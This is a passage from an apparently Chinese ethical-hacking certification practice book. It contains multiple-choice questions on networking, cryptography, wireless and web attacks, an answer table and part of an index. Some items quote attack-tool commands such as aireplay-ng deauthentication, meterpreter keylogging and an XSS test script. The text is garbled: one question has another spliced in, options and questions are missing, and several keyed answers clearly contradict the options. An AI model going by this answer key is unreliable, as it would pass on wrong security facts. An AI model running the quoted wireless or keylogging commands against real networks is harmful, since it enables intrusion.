3. `port 25 and host 192.168.0.125`
4. `tcp.port == 25`

### 31. 关于防止攻击的网络防火墙，以下哪说法是正确的？

1. 它们检测恶意流量。
2. 必须打开 80 和 443 端口。
3. 如果配置得当，它们可以防止攻击。
4. 它们配置太复杂。

### 32. IT 系统分析应对风险评估人员提供什么信息？

1. 管理层支持
2. 威胁声明
3. 安全架构
4. 影响分析

### 33. 支付卡行业安全标准 要求组织何时执行外部渗透测试？

1. 每年一次并在发生任何重大更改后
2. 每三年一次或发生任何重大更改后
3. 每两次一次或发生任何重大更改后
4. 每两年一次并在发生任何重大更改后

### 34. 以下哪项描述了公钥基础设施 的组件，其中存储了私钥以便第三方访问并方便恢复操作？

1. 密钥注册
2. 恢复代理
3. 目录
4. 密钥托管

### 35. 假设一个电子商务网站被投入运行环境，程序员未能移除在应用程序开发期间使用的秘密入口。这种秘密入口被称为什么？

1. SDLC 过程
2. 蜜罐
3. SQL 注入
4. 后门

### 36. 以下哪项是常见的面向服务架构 漏洞？

1. 跨站脚本
2. SQL 注入
3. VPath 注入
4. XML 拒绝服务问题

### 37. 道德黑客在进入一个组织后，应该执行哪项初始程序？

1. 开始安全测试。
2. 交付成果。
3. 签署正式的保密协议。
4. 评估组织正试图保护什么。

### 39. 哪项美国立法规定首席执行官 和首席财务官 必须签署声明以验证财务报告的完整性和准确性？

1. 《萨班斯-奥克斯利法案》
2. 《格拉姆-里奇-布莱尔法案》
3. 《公平准确信用交易法案》
4. 《联邦信息安全管理法》

### 40. 一名 IT 安全工程师注意到公司的 Web 服务器正遭受黑客攻击。工程师下一步应该做什么？

1. 拔掉公司 Web 服务器的网络连接。
2. 确定攻击来源并发起反击。
3. 从攻击中记录尽可能多的信息。
4. 对公司的 Web 服务器进行系统重启。

### 41. 哪种加密算法逐个地加密明文数字（位或字节）？

1. 古典密码
2. 块加密
3. 现代密码
4. 流加密

### 42. 你刚刚在网络中设置了一个安全系统。在什么样的系统中，你会发现以下字符串被用作配置中的规则？`alert tcp any -> 192.168.100.0/24 21 (msg: "FTP on the network!")`

1. 入侵检测系统
2. 防火墙 IPTable
3. 路由器 IPTable
4. FTP 服务器规则

### 43. 你的公司受一家小型医疗保健提供者的委托，对网络进行技术评估。发现 Windows 计算机上漏洞的最佳方法是什么？

1. 使用如 Nessus 的扫描工具。
2. 使用内置的 Windows 更新工具。
3. `MITRE.org` 获取最新的 CVE 发现列表。
4. 创建纯洁 Windows 安装的磁盘映像。

### 44. 下列哪项设计用于识别渗透系统的恶意尝试？

1. 入侵检测系统
2. 防火墙
3. 代理
4. 路由器

### 45. 下列哪项是适用于 Linux 系统的被动无线数据包分析器？

1. Burp Suite
2. OpenVAS
3. `tshark`
4. Kismet

### 46. __________ 是 DNS 的一组扩展，它为解析器提供 DNS 数据的源身份验证，从而减少 DNS 投毒、欺骗和类似攻击类型的威胁。

1. DNSSEC
2. 区域传输
3. 资源传输
4. 资源记录

### 47. 下列哪项被认为是保护身份信息 免受 Web 漏洞的最佳方法？

1. 使用加密存储存储所有 PII。
2. 使用加密通信协议传输 PII。
3. 在所有硬盘上使用全盘加密以保护 PII。
4. 使用安全令牌登录所有使用 PII 的 Web 应用程序。

### 48. 哪项不是 PCI 合规建议？

1. 尽可能限制访问持卡人数据的人员人数。
2. 使用加密保护通过任何公共网络传输的所有持卡人数据。
3. 每年将将处理信用卡交易的员工轮换到不同的部门。
4. 在公共网络和支付卡数据之间使用防火墙。

### 49. 下列哪项最准确地描述了引导扇病毒 的机制？

1. 将 MBR 移动到硬盘上的另一个位置并将其复制到 MBR 的原始位置
2. 将 MBR 移动到 RAM 中的另一个位置并将其复制到 MBR 的原始位置
3. 覆盖原始 MBR 并仅执行新的病毒代码
4. 修改目录表项，使目录条目指向病毒代码而非实际程序

### 50. 你想分析无线网络上的数据包。你会使用哪个程序？

1. 带有 Airpcap 的 Wireshark
2. 带有 Airpcap 的 Airsnort
3. 带有 Winpcap 的 Wireshark
4. 带有 Winpcap 的 Ethereal

### 51. 如果端口关闭关闭，NULL 扫描的正确响应是什么？

1. SYN
2. FIN
3. PSH
4. RST

### 52. Elliot 正在利用一个使用 SQL 作为后端数据库的 Web 应用程序。他确定该应用程序存在 SQL 注入漏洞，并在注入的查询中引入了条件时间延迟以判断查询是否成功。Elliot 最可能在执行的是哪种类型的 SQL 注入？

1. 基于错误的 SQL 注入
2. 盲 SQL 注入
3. 基于 Union 的 SQL 注入
4. NoSQL 注入

### 53. 以下哪些算法可以保证发送中、传输中或存储的消息的完整性？

1. 对称算法
2. 非对称算法
3. 哈希算法
4. 完整性算法

### 54. 你正在为客户进行渗透测试，并已获得 Windows 机器的 shell 权限。你打算检索所有的 DNS 记录。如果 DNS 服务器是 `192.168.10.2` 且域名为 `abccorp.`，你会输入什么命令来尝试区域传输？

1. `list 192.168.10.2`
2. `is abccorp.`
3. `ns 192.168.10.2 type`
4. `abccorp. zone`

### 55. 拒绝服务攻击是如何工作的？

1. 黑客阻止合法用户（或一组用户）访问服务。
2. 黑客使用他能想到的每个字符、单词或字母来绕过身份验证。
3. 黑客试图使用系统破解密码，导致网络崩溃。
4. 黑客通过混淆计算机来模仿合法用户。

### 56. 通过以下方式可以使用 DES 更安全地发送消息：

1. 使用不同的密钥进行传输
2. 使用公钥系统将密钥发送给接收方
3. 使用硬件
4. 不公开算法

### 57. 如果你想使用 Nmap 执行加密扫描，你会输入什么命令？

1. `nmap -sU`
2. `nmap -sS`
3. `nmap -sM`
4. `nmap -sT`

### 58. 下列哪些法律要求在标准交易中使用雇标准号码？

1. SOX
2. HIPAA
3. DMCA
4. PCI-DSS

### 59. 下列哪些攻击利用网页 漏洞，允许攻击者强制不知情的用户的浏览器发送恶意请求？

1. 命令注入攻击
2. 文件注入攻击
3. 跨站请求伪造
4. 隐藏字段操控攻击

### 60. 下列哪种 DoS 工具通过耗尽 Web 服务器上的可用会话来攻击目标 Web 应用程序？该工具通过永结束的 POST 传输并发送任意巨大的 `content-length` 头部来保持会话阻塞。

1. My Doom
2. Astacheldraht
3. R-U-Dead-Yet?(RUDY)
4. LOIC

### 61. 哪个协议用于在设备之间（通常在 VPN 中）建立安全通道？

1. PPP
2. IPSEC
3. PEM
4. SET

### 62. 防火墙是根据预定义的规则集能够控制和监控进出目标网络流量的软件或硬件系统。下列哪种类型的防火墙可以防止 SQL 注入攻击？

1. 数据驱动防火墙
2. 状态检测防火墙
3. 包过滤防火墙
4. Web 应用防火墙

### 63. 为什么容器比虚拟机不安全？

1. 容器上的宿主机操作系统具有更大的攻击面。
2. 容器可能会填满主机的磁盘空间。
3. 受攻击的容器可能会导致主机的 CPU 饥饿。
4. 容器连接到同一个虚拟网络。

### 64. 一名渗透测试人员正在为测试配置 Windows 笔记本电脑。在设置 Wireshark 时，需要哪个驱动和库来允许网卡（NIC）以混杂模式工作？

1. `Libpcap`
2. `Awinpcap`
3. `Winprom`
4. `Winpcap`

### 65. 下列哪个过程评估了组织对其既定安全策略的依从情况？

1. 漏洞评估
2. 渗透测试
3. 风险评估
4. 安全审计

### 66. 使用哪种工具收集无线数据包数据？

1. `NetStumbler`
2. `John the Ripper`
3. `Nessus`
4. `Netcat`

### 67. 下列哪个示例最能代表逻辑控制或技术控制？

1. 安全令牌
2. 加热和空调
3. 烟雾和火灾报警器
4. 公司安全策略

### 68. 一名安全分析师正在对网络进行审计，确定是否存在偏离现有安全策略的情况。分析师发现 IT 部门的一个用户安装了拨出调制器。安全分析师必须检查哪项安全策略以确定是否允许使用拨出调制器？

1. 防火墙管理策略
2. 可接受策略
3. 远程访问策略
4. 许可策略

### 69. 公司的一名开发者被要求创建一个程序，允许客户更新其账单和配送信息。账单地址字段限制为 50 个字符。开发者将使用哪种伪代码来避免地址字段的缓冲区溢出攻击？

1. `if (billingAddress = 50) {update field} else exit`
2. `if (billingAddress != 50) {update field} else exit`
3. `if (billingAddress >= 50) {update field} else exit`
4. `if (billingAddress <= 50) {update field} else exit`

### 70. 为了将日志消息发送到位于防火墙后的日志分析工具，可能需要哪个协议和端口号？

1. `UDP 123`
2. `UDP 541`
3. `UDP 514`
4. `UDP 415`

### 71. 一名伪装成空调专家的黑客能够在交换机网络环境中安装嗅探器程序。黑客可以使用哪种攻击来嗅探网络中的所有数据包？

1. Fraggle
2. MAC Flood
3. Smurf
4. Tear Drop

### 72. 执行以下 Google 搜索将返回哪些结果？`site:target.com -site:Marketing.target.com accounting`

1. 匹配查询中所有单词的结果
2. 匹配 `target.com` 域名中的“accounting”但未在 `Marketing.target.com` 网站上的结果
3. 位于 `Marketing.target.com` 网站匹配的结果，且这些结果属于 `target.com` 域名，但不包含“accounting”一词
4. 匹配 `target.com` 和 `Marketing.target.com` 且包含“accounting”一词的结果

### 73. 数字签名证书颁发机构的责任是验证

1. 使用的哈希函数
2. 订阅者的公钥
3. 订阅者的私钥
4. `DES` 中使用的密钥

### 74. 当 `snort` 等基于网络的 IDS 匹配报警规则时，IDS 会执行以下哪项操作？

1. 丢弃数据包并处理下一个
2. 继续评估数据包，直到检查完所有规则
3. 停止检查规则，发送警报并让数据包继续通过
4. 阻塞数据包源 IP 地址的连接

### 75. 使用 Wireshark 在网络上获取数据包捕时，哪个设备可以捕获线路上的所有流量？

1. 网络分路器
2. 三层交换机
3. 网络网接器
4. 应用防火墙

### 76. 下列哪项是非对称加密实施的示例？

1. SHA1
2. PGP
3. 3DES
4. MD5

### 77. Diffie-Hellman (DH) 组决定密钥交换过程中使用的密钥强度。以下是 Diffie-Hellman (DH) 组 5 的正确位大小是？

1. 768 位密钥
2. 1025 位密钥
3. 1536 位密钥
4. 2048 位密钥

### 78. 对服务器进行 Nmap 扫描显示端口 25 处于开放状态。这可能带来什么风险？

1. 开放的打印机
2. Web 门户网站
3. 明文认证
4. 活跃邮件

### 79. 蓝牙使用哪种调制技术在配对的设备之间交换信息？

1. `PSK`（相移键控）
2. `FSK`（频键控）
3. `ASK`（幅键控）
4. `QAM`（正交幅度）

### 80. 关于 LM 哈希，哪种说法是正确的？

1. LM 哈希由 48 个十六进制字符组成。
2. LM 哈希基于 `AES128` 加密标准。
3. 密码中的大写字母会被转换为小写。
4. 当密码超过 15 个字符时不生成 LM 哈希。

### 81. 在测试公司的 Web 应用时，测试人员尝试在搜索区域插入以下脚本：

```
```


```
<script>alert(" Testing ")</script>
```

随后，当测试人员按下搜索按钮时，屏幕上弹出一个显示“Testing”的对话框。该站点存在哪种漏洞？

**下列哪项是 IP 伪造的示例？**

1. SQL 注入
2. 间人攻击
3. 跨站脚本
4. ARP 毒化

### 82. 下列哪项是基于独立的软件向其他应用程序提供功能服务的设计模式？

1. 服务面向架构
2. 对象面向架构
3. 精益编码
4. 敏捷流程

### 83. Open Web Security Project (OWASP) 是一个致力于提高软件安全的全球非营利慈善组织。哪项是 OWASP 十大关键 Web 应用安全风险的主要关注点？

1. 注入
2. 跨站脚本
3. 跨站请求伪
4. 路径泄露

### 84. 在使用银行的在线服务时，你注意到 URL 栏中有以下字符串：`http://www.MyPersonalBank.com/account?id=36894091028389&Damount=10980&Camount=21`

观察到如果修改`Damount`、`Camount`值并提交请求，网页上的数据会反映这些变化。该站点存在哪种类型的漏洞？

1. Web 参数篡改
2. Cookie 篡改
3. 反射型 XSS
4. SQL 注入

### 85. 与非对称算法相比，以下哪个领域被认为是对称加密的优势？

1. 可扩展性
2. 速度
3. 密钥分发
4. 安全性

### 88. 由于正常网络运行速度缓慢，IT 部门决定监控所有员工的互联网流量。从法律角度来看，采取这种措施会产生什么麻烦？

1. 所有员工都将停止正常工作活动。
2. IT 部门将告诉员工谁是老板。
3. 不通知员工他们将受到监控可能构成了侵犯隐私。
4. 网络仍然可能出现流量减慢的情况。

### 89. 哪种 Metasploit Framework 框架工具可以帮助渗透测试者规避反病毒系统？

1. `msfpayload`
2. `msfcli`
3. `msfencode`
4. `msfd`

### 90. 在许多州，发送垃圾邮件是违法的。因此，垃圾邮件发送者拥有各种技术，试图确保没有人知道他们同时向成千上万的用户发送了垃圾邮件。以下哪种描述最准确了垃圾邮件发送者如何隐藏此类类型电子邮件的来源？

1. 公司黑名单，这些公司的邮件服务器中继被配置为仅允许来自其特定域名的流量。
2. 邮件中继，这是一种不断将电子邮件从内部邮件服务器转发到外部邮件服务器的技术。
3. 公司黑名单，这些公司的邮件服务器中继被配置为完全开放。
4. 能够重新配置邮件服务器中继组件的工具，偶尔将电子邮件发回给垃圾邮件发送者。

### 91. 互联网服务提供商（ISP）需要验证使用模拟调制解调器、数字用户线路（DSL）、无线数据服务以及通过帧中继网络使用虚拟专用网络（VPN）连接的用户。哪种 AAA 协议最可能处理此需求？

1. `RADIUS`
2. `DIAMETER`
3. `Kerberos`
4. `TACACS+`

### 92. Ricardo 想向一家竞争公司发送秘密信息。为了保护这些信息，他使用了一种在普通信息中隐藏秘密信息的技术。这种技术提供了“通过隐蔽实现的安全性”。Ricardo 正在使用哪种技术？

1. 隐写术
2. 公钥加密
3. `RSA` 算法
4. 加密

### 93. 在使用浏览器进行在线银行操作时，Kyle 收到一封包含精美艺术品图像的电子邮件。点击图像后，网页浏览器打开了一个新标签页，显示了一个鳄鱼吞噬钞票和硬币的动画 GIF。几天后，Kyle 发现他在银行的所有资金都不见了。黑客利用了哪种基于浏览器的安全漏洞？

1. 点击劫持
2. Web 表单输入验证
3. 跨站请求伪造（CSRF）
4. 跨站脚本（XSS）

### 94. 当同一局域网内数据的安全性和机密性是最优先级时，你应该实施哪种 IPSec 模式？

1. `AH` 隧道模式
2. `AH` 混合模式
3. `ESP` 传输模式
4. `ESP` 机密模式

### 95. \_\_\_\_\_\_\_\_\_\_ 是一种针对恶意 Wi-Fi 接入点的攻击类型，它看起来是现场提供的合法接入点，但实际上被设置为监听无线通信。它是钓鱼诈骗的无线版本。攻击者通过伪装成合法提供者欺骗用户将笔记本电脑或手机连接到受污染的热点。此类攻击可能通过监听通信链路或建立欺诈网站来窃取毫无防备用户的密码。在空格处填入相应选项。

1. 碰撞攻击
2. 邪恶孪生攻击
3. 空洞攻击
4. 信号干扰攻击

### 96. 备份数据是安全必须。然而，如果处理不当，也具有一定的风险。以下哪项是备份带来的最大威胁？

1. 备份是恶意软件或非法信息的来源。
2. 由于没有进行验证，备份是不完整的。
3. 在灾难发生期间备份不可用。
4. 未加密的备份可能会丢失或被盗。

### 97. 考虑到备份带的性质，以下哪种是存储磁带的**推荐**方法？

1. 在凉爽干燥的环境
2. 在数据中心内部以便更快检索
3. 在离外的受气候控制的设施中
4. 在同一栋建筑的不同楼层

### 98. 以下哪项是 GNU bash 的漏洞（于 2014 年 9 月发现），该漏洞允许攻击者在受影响的系统上运行远程命令？

1. `Shellshock`
2. `Rootshell`
3. `Rootshock`
4. `Shellbash`

### 99. 对于一个价值 300 美元的硬盘，每年的更换和恢复操作的大致成本是多少？假设每小时收费 10 美元的技术人员需要 10 小时来恢复操作系统和软件，并需要另外 4 小时从上次备份将数据库恢复到新硬盘中。计算`SLE`、`ARO`和`ALE`。假设`EF = 1` (100%)。

1. $440
2. $100
3. $1320
4. $146

### 100. 假设你需要验证使用模拟调制解调器、数字用户线路（DSL）、无线数据服务以及通过帧中继网络使用虚拟专用网络（VPN）的用户。你应该实施什么协议？

1. `TACACS+`
2. `DIAMETER`
3. `Kerberos`
4. `RADIUS`

### 101. 如果使用令牌和 4 位身份密码（PIN）访问计算机，并且令牌离线检查正确的 PIN，会发生哪种攻击？

1. 生日攻击
2. 暴力破解
3. 中间人攻击
4. 洪水攻击

### 102. 一个 Windows 2000 网络的用户发现可以使用嗅探携带登录信息的 SMB 交换。该用户连接到一个有 23 台其他系统的集线器，但他无法捕捉登录，尽管知道其他用户正在登录。你认为最可能的原因是什么？

1. 网段存在 NIDS。
2. Kerberos 阻止了它。
3. 无法嗅探登录。
4. 只能嗅探 Web 服务器。

### 103. 无线连接你应该使用哪种安全协议？

1. 无协议
2. `WEP`
3. `WPA`
4. `WPA2`

### 104. 什么是密钥重装攻击？

1. 伪成合法用户以连接接入点
2. 在无线网络中伪装成接入点，导致设备连接到攻击者的系统
3. 重装路由器固件以重置访问密钥
4. 重装 Wi-Fi 设备适配器以重置访问参数

### 105. 以下命令对无线网适配器有什么影响？`airmon-ng start wlan0`

1. 启动网适配器的 ad hoc 模式。
2. 启动网适配器的管理模式。
3. 启动网适配器的主主模式。
4. 启动网适配器的监听模式。

### 106. 使用以下哪种命令可以从无线接口`wlan0`开始记录捕获的网络数据？

1. `airmon-ng wlan0 -w <OUTOUT FILE>`
2. `airodump-ng wlan0 -w <OUTOUT FILE>`
3. `aircrack-ng wlan0 -w <OUTOUT FILE>`
4. `aireplay-ng wlan0 -w <OUTOUT FILE>`

### 107. 以下哪种命令会对指定 MAC 地址的设备执行去认证？

```
aireplay-ng -1 1 -a <ACCESS POINT MAC> -c <DEVICE MAC> <INTERFACE>
```

2. `aireplay-ng -0 1 -a <ACCESS POINT MAC> -c <DEVICE MAC> <INTERFACE>`
3. `aircrack-ng -1 1 -a <ACCESS POINT MAC> -c <DEVICE MAC> <INTERFACE>`
4. `aircrack-ng -0 1 -a <ACCESS POINT MAC> -c <DEVICE MAC> <INTERFACE>`

### 108. 非企业级解决方案无线安全中实现了两种认证方案。这些是基于预共享密钥的认证和：

1. 基于共享密钥的认证
2. 开放认证
3. 基于私钥的认证
4. 混合认证

### 109. 你需要在一个孤立的文件服务器和你的机器之间传输文件，但你不希望主机连接到任何接入点。你会使用哪种无线模式实现在不涉及任何接入点的情况下与文件服务器连接？

1. 点接模式
2. 管理模式
3. 主机模式
4. 监听模式

### 110. 以下命令代表哪种攻击？

```
aireplay-ng -5 –b<BSSID> -h < MAC ADDRESS > <INTERFACE>
```

1. 拿铁咖啡攻击
2. 分段攻击
3. 伪造认证攻击
4. Chopchop 攻击

### 111. 下列述哪个是正确的？

1. 与蓝牙相比，Wi-Fi 消耗的功率更少。
2. 蓝牙支持大量用户同时连接。
3. 蓝牙需要高带宽。
4. 蓝牙和 Wi-Fi 都使用无线信号进行通信。

### 112. 以下 802.11 数据包格式的正确顺序是？

1. 帧校验序列 > 帧控制 > 持续时间/连接 ID > 地址 > 序列控制 > 帧体
2. 帧校验序列 > 帧控制 > 地址 > 持续时间/连接 ID > 序列控制 > 帧体
3. 帧控制 > 持续时间/连接 ID > 地址 > 序列控制 > 帧校验序列 > 帧体
4. 帧控制 > 持续时间/连接 ID > 地址 > 序列控制 > 帧体 > 帧校验序列

### 113. 使用什么命令列出蓝牙设备上运行的服务？

1. `sdptool browse <MAC ID>`
2. `l2ping <MAC ID>`
3. `hcitool name <MAC ID>`
4. `hcitool scan`

### 114. 以下命令尝试做什么？

```
hciconfig up
```

1. 初始化 Wi-Fi 设备
2. 初始化本地局域网适配器
3. 初始化蓝牙设备
4. 初始化状态防火墙

### 115. 下列述中哪个是正确的？

1. WPA 是无线网络中最先进的加密协议。
2. 被动无线局域网检测是通过监听范围内的所有流量实现的。
3. 主动无线局域网检测是通过物理检查无线接入点。
4. 四路握手包含两个认证请求和两个取消认证请求。

### 116. 下列哪项如果没有主机文件就不存在？

1. 广告软件
2. 间谍软件
3. 蠕虫
4. 病毒

### 117. 你试图对一个容量远超过你系统能力的网络进行 DDoS 攻击。你会设计哪种工具来实现目的？

1. 木马
2. 病毒
3. 僵尸网络
4. 臃肿软件

### 118. 以下`meterpreter`命令的作用是什么？

```
keyscan_dump
```


```
1. 启动键盘记录器
2. 输出记录的按键
3. 停止键盘记录器
4. 扫描键盘缺失按键
```

119. **下列哪项没有被莫里斯蠕虫（Morris worm）利用？**

1. Finger 协议
2. 弱密码
3. `rexec`
4. snmp

120. **Netcat 中继可用于：**

1. 混淆数据包
2. 混淆攻击源
3. 混淆攻击工具
4. 混淆攻击负载

121. **你最近在一个记事本应用程序实现中隐藏了一段恶意代码。这段代码只有在应用程序创建了一百个新文件后才会被触发。这种安排被称为什么？**

1. 反病毒 (Counter virus)
2. 逻辑炸弹 (Logic bomb)
3. 时间炸弹 (Time bomb)
4. 计时蠕虫 (Ticker worm)

122. **当计算机启动时，BIOS 会查找磁盘上的特定扇区以确定它需要调用操作的任务。这通常是磁盘上的第一个扇区。它叫什么？**

1. 卷引导记录 (Volume Boot Record)
2. 主引导记录 (Master Boot Record)
3. FAT 记录
4. NTFS 记录

123. **在嗅探网络时，你发现某些 ARP 请求在以太网头部中的目标地址为 `ff:ff:ff:ff:ff:ff`。这些请求是用来做什么的？**

1. ARP 探测 (ARP probe)
2. ARPset (ARP announcement)
3. ARP 确认 (ARP acknowledgement)
4. ARP 断开 (ARP disconnect)

124. **下列哪个命令发出了 ICMP 回显请求？**

1. `ifconfig/all`
2. `ping <HOSTNAME>`
3. `ipconfig/renew`
4. `echo`

125. **下列哪个不是一个有效的命令？**

1. `router show class-map`
2. `router show frame-relay`
3. `router show icmp`
4. `router ntp`

# 答案

| 问题 | 答案 | 问题 | 答案 | 问题 | 答案 | 问题 | 答案 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | C | 33 | C | 65 | D | 97 | |
| 2 | A | 34 | A | 66 | A | 98 | |
| 3 | D | 35 | D | 67 | A | 99 | |
| 4 | B | 36 | D | 68 | C | 100 | |
| 5 | B | 37 | D | 69 | D | 101 | |
| 6 | D | 38 | A | 70 | C | 102 | |
| 7 | D | 39 | C | 71 | B | 103 | |
| 8 | A | 40 | C | 72 | B | 104 | |
| 9 | D | 41 | D | 73 | B | 105 | |
| 10 | C | 42 | A | 74 | B | 106 | |
| 11 | A | 43 | A | 75 | A | 107 | |
| 12 | A | 44 | A | 76 | B | 108 | |
| 13 | A | 45 | D | 77 | C | 109 | |
| 14 | B | 46 | A | 78 | D | 110 | |
| 15 | C | 47 | A | 79 | A | 111 | |
| 16 | C | 48 | C | 80 | D | 112 | |
| 17 | C | 49 | A | 81 | D | 113 | |
| 18 | A | 50 | A | 82 | B | 114 | |
| 19 | C | 51 | D | 83 | A | 115 | |
| 20 | C | 52 | B | 84 | A | 116 | |
| 21 | C | 53 | C | 85 | A | 117 | |
| 22 | D | 54 | B | 86 | B | 118 | |
| 23 | D | 55 | A | 87 | D | 119 | |
| 24 | A | 56 | B | 88 | C | 120 | |
| 25 | D | 57 | B | 89 | C | 121 | |
| 26 | B | 58 | B | 90 | B | 122 | |
| 27 | C | 59 | C | 91 | A | 123 | A, B |
| 28 | A | 60 | C | 92 | A | 124 | B |
| 29 | D | 61 | B | 93 | C | 125 | C |
| 30 | B | 62 | D | 94 | C | | |
| 31 | D | 63 | A | 95 | B | | |
| 32 | B | 64 | D | 96 | D | | |

# 索引

## A

- 接入点 (AP) 201
- 主动侦察 43
- 地址解析协议 (ARP) 211
- Aircrack-ng 工具集 208
- Android 硬件抽象层 (HAL) 220
- Android OS 架构
  - Android 运行时 219
    - 应用程序框架 219
    - 应用 220
    - 库 219
    - Linux 内核 219
  - Android 根根工具 224
  - Android 沙盒 220
- Angry IP Scanner 81
- 应用
  - 执行 136
  - 应用级安全
    - 优雅的错误处理 272
    - 监控与日志管理 272
    - 网络交互测试 272
    - 使用安全标准和框架 271
    - 静态代码分析器 270
  - 应用级会话劫持 148-150
- 应用重打包 66
- ARP 缓存投毒 212
- ARP 欺骗 211
- 非对称密钥加密 257
  - 公钥加密 258
- 攻击工具 168

## B

- 后门入口 132
- 诱饵攻击 64
- Banner 抓取 84
  - 使用 ID Serve 85
  - 使用 Netcat 85
  - 使用 Telnet 84
- 基础服务集标识符 (BSSID) 201
- 黑帽 15
- 盲目劫持 147
- 块算法 256
- 蓝牙 199
  - 蓝牙信标 200
  - 缺点 199
  - 协议 200
    - WEP 201
    - WPA 202
    - WPA2 202
    - WPA3 203, 204
- 赏金猎人 31
- 自带设备 (BYOD) 227
- 暴力破解攻击 151
- 暴力破解 145
- Brutus 190
- Burp Suite 154

## C

- 手机号码欺骗 68
- CCIE Security 321
- CCNA Security 321
- CCNP Security 321
- CCPA 331
- CEH 考试优惠券 24
- VUE 考试优惠券 24
- 注册道德黑客 (CEH)
  - 核心要点 22
  - 模块 24, 31
  - 先决条件 23
  - 版本 10 22
  - 版本 11 23
- 认证网络防御者 (CND) 321
- 认证 SOC 分析师 (CSA) 321
- 选择密文攻击 261
- Cisco 认证网络助理 (CCNA) 321
- 云计算与 IoT 搜索引擎 249
- 云端攻击向量 242
  - 跨云攻击 242
  - DOS/DDOS 攻击 242
  - 恶意软件注入 242
  - 信道攻击 243
- 云计算 234
  - 优势 235
  - 云计算威胁
    - 数据隐私保护 241
    - 应用不安全 241
    - 服务滥用 241
- 云部署模型
  - 社区云 237
  - 混合云 237
  - 私有云 236
  - 公有云 236
- 云基础设施
  - 层级结构 235
- 冲突 128
- 漫画订阅服务
  - 基本安全措施 9
  - 出版商 7
  - 订阅者 7
- SNMP 栈
  - GET 98
  - GETBULK 98
  - GETNEXT 98
  - INFORM 98
  - RESPONSE 98
  - SET 98
  - TRAP 98
- 常见注入攻击，Web 应用破解
  - 缓冲区溢出 188
  - 常见注入 184
  - 跨站请求伪造 (CSRF) 186
  - 跨站脚本 (XSS) 186
  - DoS 和 DDoS 188
  - 文件包含 185
  - LDAP 注入 184
  - 会话操控 188
  - SQL 注入 181-183
- 注意事项 328, 329
- 需要-
- 计算机网络
  - 结构 74
  - 活跃主机 78
  - 容器 239, 240
  - 控制器 244
  - 应对措施，会话劫持 154
  - 破解者 15
  - 接口 263
  - 凭据收集 13
  - 跨站请求攻击 152
  - 跨站脚本攻击 152
- 密分析 261
- 密分析工具 263
- 加密原语 254, 255
- 加密学
  - 非对称加密 257
  - 对称加密 255, 256
  - 接口 264
  - CSRF 攻击 186, 187
- 攻击目标 3
- 网络审计 23
- 网络安全取证员 19
- 网络安全取证 22
- 法律
  - CCPA 331
  - GDPR 330
  - HIPAA 330
  - 需要- 328
  - PCI DSS 329
  - PIPEDA 331
- 网络安全 3
- 漫画订阅服务 7
- 电子健康记录 7
- 网络安全审计师 19
- 网络安全格局 18
- 网络审计 23
- 网络安全取证 22
- 网络安全 21
- 渗透测试 22
- 软件专业人士 23
- 网络分子 15

## D

- 去认证攻击 209
- 非军事化区 (DMZ) 277
- 拒绝服务 12
- 探测工具 191
- 公用加密标准 (DES)的发展 255
- 设备到云模型 245
- 设备到设备模型 244
- 设备到网关模型 245
- DevSecOps 118
  - 周期 119
- Dig 105
- Dig DNS 穷举接口 106
- Dig 穷举接口 106
- 数字签名 259, 260
- 临时手机（垃圾手机） 67
- 临时邮件邮箱 68
- 临时电话号码 67
- DLL 劫持 135
- DNS 放大攻击 167
- DNS 穷举 105
- NSLookup 107
- DNS 查询工具 250
- DNS 劫持 166
- 域名系统 (DNS) 43, 105

## E

- 窃听 65
- EC-Council 22
  - 官方培训 23
- 电子健康记录服务
  - 医生 7
  - 必要的安全措施 9
  - 设施 7
  - 信息系统 7, 8
  - 患者 7
- 邮件代理测试工具 105
- 枚举 89
  - 流量 91
  - 网络扫描的继任者 90
- 环境配置 10
- 道德黑客 15, 318
  - 道德黑客 13, 15
- 规避措施 280, 281
  - 关联检测 281, 282
- EverCrack
  - 接口 264, 265
- 邪恶孪生 213

## F

- 影响信息系统安全的因素
  - 部署环境 4
  - 开发环境 4
  - 终端用户 5
  - 源代码质量 4
  - 系统处理程序 4, 5
  - 技术进步 5
- 文件
  - 隐藏 137-139
- 足迹探测 42
- 足迹探测工具 167
- 功能 6

## G

- GDPR 330
- 灰帽 15

## H

- 攻击
  - 阶段 16
- 黑客
  - 黑帽 15
  - 网络恐怖主义分子 15
  - 灰帽 15
  - 黑客行动主义 15
  - 目的 14
  - 脚本小子 15
  - 白帽 15
- 黑客攻击 13
  - 真实案例 14
- 攻击客工具，云和 OT 系统
  - 云和 IoT 搜索引擎 249
  - DNS 查询工具 250
  - 互联网搜索引擎 248
  - 网络映射与拦截工具 250
- 黑客行动主义 15
- 硬件设备 68
- 硬件虚拟化 238
- 哈希碰撞 259
- 哈希函数 259
- 哈希处理 259
  - 凭据存储 259
  - 数据验证 259
  - 索引 259
  - 密码分析 261
  - 数字签名 259, 260
  - 隐写术 260
- HIPAA 330
- 蜜罐 278
- 水平权限提升 134
- Hping 80
  - 端口扫描 84
- HTTP 头部
  - 修改 162, 163
- HTTP 请求篡改
  - Burp Suite 168, 169
  - Metasploit 项目 170, 171
  - OWASP ZAP 169
- Hyena 接口 96

## I

- 身份窃取 65
- ID 服务 85
- IIoT 攻击向量 248
- 工业自动化 (IA) 247
- 工业控制系统 (ICS) 247
- 工业级物联网 (IIoT) 246
- 信息安全 2
  - 真实性 5
  - 可用性 5
  - 机密性 5
  - 完整性 5
  - 非否认性 5
  - 自我 33-39
- 信息系统问题 10
- 信息系统 2
  - 决策因素 9, 10
  - 安全 270
  - 安全考量 10
- 信息技术 3
- 基础设施即服务 (IaaS) 236
- 固有风险 118
- 内部攻击 65
- 内部威胁 13
- 互联网控制消息协议 (ICMP) 78
- 互联网域名 43
- 物联网 (IoT) 243
- 互联网协议 (IP) 42
- 互联网搜索引擎 248
- 入侵检测 (IDS) 281
  - 混合 IDS 279
- 入侵防御 (IPS) 280

## J

- 越狱
  - Android Root 工具 224
  - iOS 越狱工具 224
  - 移动设备 223
- JXplorer 100

## K

- Kerberos 认证 130, 131
- 密钥发行中心 (KDC) 131

## L

- LDAP 管理 101
- LDAP 枚举 99, 100
- 轻量级目录协议 (LDAP) 99
- 存活主机发现 78

## M

- 邮件交换 (MX) 43
- 恶意软件 11
- 间人攻击 (MITM) 211
- 间间人攻击 262
- 消息应用 65
- MIB 浏览器 99

## Mobile

- 移动应用重打包 226
- 移动应用仿冒者 218
- 不安全开发 217
- UX 安全 218
- 移动设备管理 227 工具 227
- 移动设备越狱 223, 224
- 安全指南 229, 230
- 移动平台 216
  - 攻击向量 216, 217
